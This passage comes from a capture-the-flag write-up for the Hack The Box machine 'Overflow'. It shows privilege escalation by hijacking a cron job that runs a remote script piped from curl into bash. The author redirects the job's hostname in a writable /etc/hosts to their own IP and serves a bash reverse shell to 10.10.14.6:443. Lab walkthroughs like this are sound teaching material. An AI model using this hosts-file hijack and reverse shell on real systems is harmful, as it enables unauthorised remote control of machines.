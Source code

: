     
    bash < <(curl -s http://taskmanage.overflow.htb/task.sh)
    

There’s also a note that it runs every minute.

#### Identify hosts

My first thought was to look for this new vhost in `/etc/apache2/sites-
enabled`, but it wasn’t there:

    
    
    developer@overflow:/etc/apache2/sites-enabled$ grep taskmanage *
    

There’s also no other servers that could be hosting it on another port:

    
    
    developer@overflow:~$ ss -ntlp
    State    Recv-Q    Send-Q        Local Address:Port        Peer Address:Port    
    LISTEN   0         128           127.0.0.53%lo:53               0.0.0.0:*       
    LISTEN   0         128                 0.0.0.0:22               0.0.0.0:*       
    LISTEN   0         100                 0.0.0.0:25               0.0.0.0:*       
    LISTEN   0         80                127.0.0.1:3306             0.0.0.0:*       
    LISTEN   0         128                       *:80                     *:*       
    LISTEN   0         128                    [::]:22                  [::]:*       
    LISTEN   0         100                    [::]:25                  [::]:*  
    

I did note that developer is part of the network group:

    
    
    developer@overflow:~$ id       
    uid=1001(developer) gid=1001(developer) groups=1001(developer),1002(network)
    

`/etc/hosts` is in the network group:

    
    
    developer@overflow:~$ find / -group network -ls 2>/dev/null
       262150      4 -rwxrw-r--   1 root     network       201 Sep 30 06:00 /etc/hosts
    

### RCE

I’ll set my IP to taskmanage.overflow.htb in `/etc/hosts`:

    
    
    developer@overflow:~$ echo -e "10.10.14.6\ttaskmanage.overflow.htb"
    10.10.14.6      taskmanage.overflow.htb
    developer@overflow:~$ echo -e "10.10.14.6\ttaskmanage.overflow.htb" >> /etc/hosts
    

I’ll create a simple reverse shell as `task.sh`:

    
    
    #!/bin/bash
    
    bash -i >& /dev/tcp/10.10.14.6/443 0>&1
    